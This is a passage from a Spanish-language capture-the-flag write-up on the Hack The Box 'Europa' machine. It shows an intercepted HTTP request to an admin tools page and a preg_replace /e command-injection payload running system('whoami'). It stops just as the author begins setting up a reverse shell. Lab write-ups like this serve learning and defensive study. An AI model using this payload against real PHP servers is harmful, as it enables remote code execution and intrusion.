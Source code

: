 ```null
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://admin-portal.europacorp.htb/tools.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

Puedo editar el patrón, que posteriormente se ve reflejado en el output. En este [artículo](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace) explcian como es posible remplazar archivos abusando de una función

```null
pattern=/test/e&ipaddress=system("whoami")&text="test"
```

Se ejecuta el comando exitosamente

<img src="/writeups/assets/img/Europa-htb/6.png" alt="">

Me envío una reverse shell. Para ello creo un ```index.html``` que comparto con un servicio HTTP con ```python``` con lo siguiente

